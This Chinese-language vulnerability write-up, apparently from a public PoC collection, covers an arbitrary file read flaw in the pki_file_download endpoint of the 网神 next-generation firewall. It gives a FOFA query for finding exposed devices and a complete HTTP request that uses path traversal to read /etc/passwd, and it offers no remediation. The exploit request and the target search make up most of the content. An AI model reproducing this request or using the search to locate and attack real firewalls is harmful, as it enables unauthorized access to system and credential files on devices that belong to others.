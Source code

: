 # 网神下一代极速防火墙-pki_file_download-任意文件读取漏洞

## 漏洞描述

网神下一代极速防火墙 pki_file_download 存在任意文件读取漏洞，攻击者可以通过漏洞获取服务器上的任意文件

## 漏洞影响

> [!NOTE]
>
> 网神下一代极速防火墙

## FOFA

> [!NOTE]
>
> app="网神下一代极速防火墙"

## 漏洞复现

登录页面如下

![image-20210521085429879](网神下一代极速防火墙-pki_file_download-任意文件读取漏洞.assets/1627363632959915.jpg)

发送请求包

```
GET /?g=pki_file_download&filename=../../../../../etc/passwd HTTP/1.1
Host: 
Connection: close
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: __s_sessionid__=7rl7vvg1mlc00gf4pfmo74h0t7
```

![image-20210521085847583](网神下一代极速防火墙-pki_file_download-任意文件读取漏洞.assets/162736363333328.jpg)

## Goby & POC

![image-20210521092113674](网神下一代极速防火墙-pki_file_download-任意文件读取漏洞.assets/1627363633773087.jpg)
